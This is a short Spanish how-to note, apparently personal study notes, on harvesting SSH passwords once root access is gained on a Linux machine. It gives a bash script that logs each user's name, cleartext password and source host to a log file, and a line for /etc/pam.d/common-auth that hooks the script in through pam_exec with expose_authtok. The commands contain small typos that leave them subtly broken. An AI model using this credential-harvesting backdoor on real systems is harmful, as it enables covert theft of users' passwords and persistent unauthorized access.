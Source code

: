 Una vez que seamos usuarios root de una máquina, podemos recibir credenciales de ssh de todos los usuarios que entren por SSH; y el proceso será el siguiente:

- PASO 1 - Crear un script llamado no.sh con el siguiente código, que si lo ejecutamos permanecerá a la escucha esperando para recibir credenciales del usuario:
```bash
echo "$(date) $PAM_USER, $(cat-), From: $PAM_RHOST" >> /var/log/dame_contraseña.log
```
![[Mis apuntes/ANEXOS/Pasted image 20230503154621.png]]
- PASO 2 - Editamos el fichero /etc/pam.d/common-auth; y añadimos esta línea justo al final, donde hacemos el llamamiento al script que antes hemos creado:

```bash
auth optional pam_exec.so quier expose_authtok /home/mario/no.sh
```
![[Mis apuntes/ANEXOS/Pasted image 20230503154804.png]]
Por tanto ahora simplemente ejecutamos el script no.sh y estará a la escucha esperando a recibir alguna conexión para enviarnos las credenciales de dicho usuario al fichero /var/log/dame_contraseña.log:
![[Mis apuntes/ANEXOS/Pasted image 20230503154916.png]]
Y ahora si iniciamos sesión por ssh, habremos recibido las credenciales:
![[Mis apuntes/ANEXOS/Pasted image 20230503154956.png]]

